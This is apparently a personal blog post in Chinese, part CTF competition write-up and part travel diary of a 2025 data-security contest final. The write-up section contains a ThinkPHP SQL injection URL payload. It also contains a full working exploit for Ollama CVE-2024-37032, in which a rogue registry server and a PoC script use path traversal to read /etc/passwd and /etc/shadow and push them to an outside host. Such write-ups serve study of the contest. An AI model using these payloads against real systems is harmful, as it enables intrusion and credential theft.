





+++
title = "数字中国数据安全产业积分争夺赛决赛2025"
slug = "digital-china-data-security-finals-2025"
description = "开心"
date = "2025-04-20T09:14:43"
lastmod = "2025-04-20T09:14:43"
image = ""
license = ""
categories = ["赛题"]
tags = ["thinkphp"]
+++

## thinkphp

爆破出来长度不同的密码了，但是进去不对，感觉就是被骗了，后面有空复现

---

在sql文件里面发现了admin和md5之后的密码，结果我现在去cmd5爆破也不能成功，说明这里肯定就是不对了，全局搜索`THINK_VERSION`



查找注入漏洞准备进后台

```
http://127.0.0.1/cms/public/index.php/index/index?username[0]=not%20like&username[1][0]=%%&username[1][1]=233&username[2]=)%20union%20select%201,user()%23
```

执行的sql语句是

```sql
(`username` NOT LIKE '%%' ) UNION SELECT 1,USER()# `username` NOT LIKE '233')
```

## ollama

ollama如果要获取用户ID是不是未授权访问的那个洞，当时没准备OH内盖

**CVE-2024-37032**，复现一下就在`/etc/passwd`

```
docker run -v ollama:/root/.ollama -p 11434:11434 --name ollama ollama/ollama:0.1.33
```



host一修改直接干就完事了，

```python
# server.py
from fastapi import FastAPI, Request, Response

HOST = "156.238.233.93"
app = FastAPI()

@app.get("/")
async def index_get():
    return {"message": "Hello rogue server"}

@app.post("/")
async def index_post(callback_data: Request):
    print(await callback_data.body())
    return {"message": "Hello rogue server"}

# for ollama pull
@app.get("/v2/rogue/bi0x/manifests/latest")
async def fake_manifests():
    return {"schemaVersion":2,"mediaType":"application/vnd.docker.distribution.manifest.v2+json","config":{"mediaType":"application/vnd.docker.container.image.v1+json","digest":"../../../../../../../../../../../../../etc/shadow","size":10},"layers":[{"mediaType":"application/vnd.ollama.image.license","digest":"../../../../../../../../../../../../../../../../../../../tmp/notfoundfile","size":10},{"mediaType":"application/vnd.docker.distribution.manifest.v2+json","digest":"../../../../../../../../../../../../../etc/passwd","size":10},{"mediaType":"application/vnd.ollama.image.license","digest":f"../../../../../../../../../../../../../../../../../../../root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest","size":10}]}

@app.head("/etc/passwd")
async def fake_passwd_head(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../etc/passwd"
    return ''

@app.get("/etc/passwd", status_code=206)
async def fake_passwd_get(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../etc/passwd"
    response.headers["E-Tag"] = "\"../../../../../../../../../../../../../etc/passwd\""
    return 'cve-2024-37032-test'

@app.head(f"/root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest")
async def fake_latest_head(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../root/.ollama/models/manifests/dev-lan.bi0x.com/rogue/bi0x/latest"
    return ''

@app.get(f"/root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest", status_code=206)
async def fake_latest_get(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../root/.ollama/models/manifests/dev-lan.bi0x.com/rogue/bi0x/latest"
    response.headers["E-Tag"] = "\"../../../../../../../../../../../../../root/.ollama/models/manifests/dev-lan.bi0x.com/rogue/bi0x/latest\""
    return {"schemaVersion":2,"mediaType":"application/vnd.docker.distribution.manifest.v2+json","config":{"mediaType":"application/vnd.docker.container.image.v1+json","digest":"../../../../../../../../../../../../../etc/shadow","size":10},"layers":[{"mediaType":"application/vnd.ollama.image.license","digest":"../../../../../../../../../../../../../../../../../../../tmp/notfoundfile","size":10},{"mediaType":"application/vnd.ollama.image.license","digest":"../../../../../../../../../../../../../etc/passwd","size":10},{"mediaType":"application/vnd.ollama.image.license","digest":f"../../../../../../../../../../../../../../../../../../../root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest","size":10}]}

@app.head("/tmp/notfoundfile")
async def fake_notfound_head(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../tmp/notfoundfile"
    return ''

@app.get("/tmp/notfoundfile", status_code=206)
async def fake_notfound_get(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../tmp/notfoundfile"
    response.headers["E-Tag"] = "\"../../../../../../../../../../../../../tmp/notfoundfile\""
    return 'cve-2024-37032-test'

# for ollama push
@app.post("/v2/rogue/bi0x/blobs/uploads/", status_code=202)
async def fake_upload_post(callback_data: Request, response: Response):
    print(await callback_data.body())
    response.headers["Docker-Upload-Uuid"] = "3647298c-9588-4dd2-9bbe-0539533d2d04"
    response.headers["Location"] = f"http://{HOST}/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04?_state=eBQ2_sxwOJVy8DZMYYZ8wA8NBrJjmdINFUMM6uEZyYF7Ik5hbWUiOiJyb2d1ZS9sbGFtYTMiLCJVVUlEIjoiMzY0NzI5OGMtOTU4OC00ZGQyLTliYmUtMDUzOTUzM2QyZDA0IiwiT2Zmc2V0IjowLCJTdGFydGVkQXQiOiIyMDI0LTA2LTI1VDEzOjAxOjExLjU5MTkyMzgxMVoifQ%3D%3D"
    return ''

@app.patch("/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04", status_code=202)
async def fake_patch_file(callback_data: Request):
    print('patch')
    print(await callback_data.body())
    return ''

@app.post("/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04", status_code=202)
async def fake_post_file(callback_data: Request):
    print(await callback_data.body())
    return ''

@app.put("/v2/rogue/bi0x/manifests/latest")
async def fake_manifests_put(callback_data: Request, response: Response):
    print(await callback_data.body())
    response.headers["Docker-Upload-Uuid"] = "3647298c-9588-4dd2-9bbe-0539533d2d04"
    response.headers["Location"] = f"http://{HOST}/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04?_state=eBQ2_sxwOJVy8DZMYYZ8wA8NBrJjmdINFUMM6uEZyYF7Ik5hbWUiOiJyb2d1ZS9sbGFtYTMiLCJVVUlEIjoiMzY0NzI5OGMtOTU4OC00ZGQyLTliYmUtMDUzOTUzM2QyZDA0IiwiT2Zmc2V0IjowLCJTdGFydGVkQXQiOiIyMDI0LTA2LTI1VDEzOjAxOjExLjU5MTkyMzgxMVoifQ%3D%3D"
    return ''

if __name__ == "__main__":
    import uvicorn
    uvicorn.run(app, host='0.0.0.0', port=80)
```

```python
# poc.py
import requests

HOST = "156.238.233.93"
target_url = f"http://{HOST}:11434"

vuln_registry_url = f"{HOST}/rogue/bi0x"

pull_url = f"{target_url}/api/pull"
push_url = f"{target_url}/api/push"

requests.post(pull_url, json={"name": vuln_registry_url, "insecure": True})
requests.post(push_url, json={"name": vuln_registry_url, "insecure": True})

# see rogue server log
```

先`python3 server.py`然后再`python3 poc.py`





## data

用`whisper`处理mp3

```python
import os
import argparse
import whisper
import time

def process_folder(folder_path, output_file="whisper_transcriptions.txt", model_size="base"):
    """
    直接使用Whisper处理文件夹中的MP3文件
    :param folder_path: 包含MP3文件的文件夹路径
    :param output_file: 输出文本文件路径
    :param model_size: Whisper模型大小(tiny, base, small, medium, large)
    """
    # 检查文件夹是否存在
    if not os.path.exists(folder_path):
        print(f"错误: 文件夹 {folder_path} 不存在")
        return
    
    print(f"正在加载Whisper模型({model_size})...")
    start_time = time.time()
    model = whisper.load_model(model_size)
    load_time = time.time() - start_time
    print(f"模型加载完成，耗时 {load_time:.2f} 秒")
    
    # 获取所有MP3文件并按文件名排序
    mp3_files = sorted([f for f in os.listdir(folder_path) if f.lower().endswith('.mp3')])
    
    if not mp3_files:
        print("警告: 没有找到MP3文件")
        return
    
    print(f"找到 {len(mp3_files)} 个MP3文件待处理")
    
    with open(output_file, "w", encoding="utf-8") as f_out:
        for i, filename in enumerate(mp3_files, 1):
            mp3_path = os.path.join(folder_path, filename)
            print(f"\n[{i}/{len(mp3_files)}] 正在处理: {filename}")
            
            try:
                # 检查文件是否存在
                if not os.path.isfile(mp3_path):
                    print(f"文件不存在: {mp3_path}")
                    continue
                
                # 直接使用Whisper处理MP3
                start_time = time.time()
                result = model.transcribe(mp3_path)
                process_time = time.time() - start_time
                
                # 获取转录结果
                text = result.get("text", "").strip()
                
                # 写入结果
                f_out.write(f"文件: {filename}\n")
                f_out.write(f"处理时间: {process_time:.2f}秒\n")
                f_out.write(f"转写结果:\n{text}\n")
                f_out.write("-" * 80 + "\n")
                
                print(f"处理完成，耗时 {process_time:.2f} 秒")
                print(f"结果长度: {len(text)} 字符")
                
            except Exception as e:
                print(f"处理 {filename} 时出错: {str(e)}")
                f_out.write(f"文件: {filename}\n")
                f_out.write(f"错误: {str(e)}\n")
                f_out.write("-" * 80 + "\n")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="直接使用Whisper将MP3文件转换为文字")
    parser.add_argument("folder", help="包含MP3文件的文件夹路径")
    parser.add_argument("-o", "--output", default="whisper_transcriptions.txt", 
                       help="输出文件名(默认为whisper_transcriptions.txt)")
    parser.add_argument("-m", "--model", default="base", 
                       choices=["tiny", "base", "small", "medium", "large"],
                       help="Whisper模型大小(默认为base)")
    
    args = parser.parse_args()
    
    print("="*50)
    print(f"开始处理文件夹: {args.folder}")
    print(f"使用模型: {args.model}")
    print(f"输出文件: {args.output}")
    print("="*50)
    
    start_total = time.time()
    process_folder(args.folder, args.output, args.model)
    total_time = time.time() - start_total
    
    print("\n" + "="*50)
    print(f"全部处理完成! 总耗时: {total_time:.2f} 秒")
    print(f"结果已保存到: {os.path.abspath(args.output)}")
    print("="*50)

```

`python3 exp.py mp3 -o output_transcriptions.txt -m base`没运行成功，问题很多，越来越多，哎真是浪费时间

## 小结

唯一两个web都是那么的难打，芙拉

## 说在最后

哈哈其实我想发这篇文章，主要目的不是想写比赛怎么怎么样，毕竟我也不是数据安全的人才，记录一下这两天看到的事，我是星期五到星期一走，星期一纯玩就不说了

### 星期五

哎呀这天可真是有点运行不好，由于baozongwi第一次坐飞机，所以怕赶不上，于是即使是11:55的飞机，我也是早早的就起了床，听说天府机场会很大，而且距离成都大学也很远，所以一醒，稍微收拾了一下就出门啦，在地铁的时候，还是比较顺利的，没有坐过站，甚至说有两班车都是每次刚好我一下来就到了，本来两个小时的地铁，硬生生是只用了一个小时四十多分钟，进了T2(天府机场2号登机楼)

看着时间非常充裕就慢慢的闲逛了，晃晃悠悠到了登机口发现居然还有这么久的嘛，没办法只能把玩把玩我的手机了，玩到最后登机之后，我的悲桑一天就开始了，只有11个电了，也没注意，充电宝太大，也没能带上来，迅速关机，

值机之前不是可以选座嘛，我看旁边只有一个人，真真实实的以为他也是独行者，上来之后，没想到，啊？怎么是一对情侣啊，而且飞机两个小时，他们两个的手就没分开过，一直合在一起，但是很久的我，真是狠狠的羡慕了呀，过了一会儿，就可以吃饭了，厦航的饭四川人吃起来感觉没有味，不过总体来说，还算好吃？

下飞机之后，因为我要去开报销证明，发票或者是行程单，之前并不知道是二选一，以为要两个一起开，并且长乐机场出口和登机口不一样(好像每个机场都不一样)，所以我先绕了一圈，观察了一下，扫了一个充电宝，电电兔充电宝，先给手机冲冲，找了十几分钟，中途还问了一个很好看的姐姐，但是错意了，他以为我是长途客车票，其实我是飞机票，实在是找不到了，于是问了问，就这样挨着问，我的路线变为了

> 商务中心->二楼登机处->17号窗口->没有人->开电子发票->得知发票行程单二选一

what the h?完全就是被当日本人整了，搞到发票之后，先把川航的也开了，但是并不可以，原来是要到达目的地之后才可以

找酒店的时候更是一大趣事，因为酒店是书鱼哥哥订的，所以我直接按着美团上面的地址找了找，emm，怎么地址的原处，是一片废墟，大家可以想象一下我当时的处境，可谓是相当懵逼，后面和老板打了好几次电话，因为他是本地人吧，我刚来有点不习惯，又在大马路旁边，真的很难听懂他在说什么，即使我开免提，声音调到最大，外地人的痛~，对线了十几分钟之后发现了一个趣事，老板死活不给我发地址，我在想地址又没啥，又不是密码或者房卡，直到我去请求书鱼哥哥帮助之后，原来如图



我终于是到达了酒店，并且和Helen,havery以及平时一起打国际赛的大部分师傅都吃了一顿朱富贵(还行，外地人可能吃不习惯)，最先来的时候是想还充电宝，但是始终找不到合适的位置，市中心到处都是美团，很少有电电兔，最后还充电宝的时候扣了我39，逛了一会儿，和墨水师傅一起打车回去了，回来和nop双排了一会，知道可以申诉？我把理由详细的说了说，没想到第二天一早收到了36的退款，电电兔就是好！

### 星期六

中间做了一道国际赛的jail，这国际赛还是很有质量的，然后俺的队友们就到了，就过上了像是有家人一样的生活，本来网上觉得非常的和蔼，么想到，线下更热情，而且也很聊的来，也很照顾我，比如哥哥们本来要瓦罗兰特的，一听到我没有，就聊了聊平时，后面直接王者荣耀启动！四排的很开心，哈哈(难道不应该准备比赛嘛，虽然确实迷茫不知道自己可以干嘛)，总之很开心，心里想了太多话，但是这里就是写不出来，😆

### 星期天

起床开始战斗，我和书鱼哥哥负责题目探测以及常见的直接打，曹师傅负责脚本提示特征，疯狂砍分，谢哥哥打AI，到最后，书鱼哥把那个pickle给出了之后我们排名很高，第三名，并且是最后十分钟，我们都以为稳了，不过最后还是没能稳住

打的每一分都很来之不易，最后我们三个盯着谢哥哥屏幕，看他AI投毒提纯，早上我和书鱼哥手动测试，虽然两个web都没做出来，断网比赛真感觉打不了，看群里，那个tp也没几个打了的，赛后还和[G3rling](https://g3rling.top/)拍了张照片，以及SU合照

晚上又是狠狠happy了，开心就对了🤪


谢谢我的队友们(bkfish\w4rd3n\starryer)，带我玩，带我拿奖，很照顾我

谢谢SU的伙伴们，一起打了几个月国际赛了，希望后面还可以坚持打，也是终于见面了
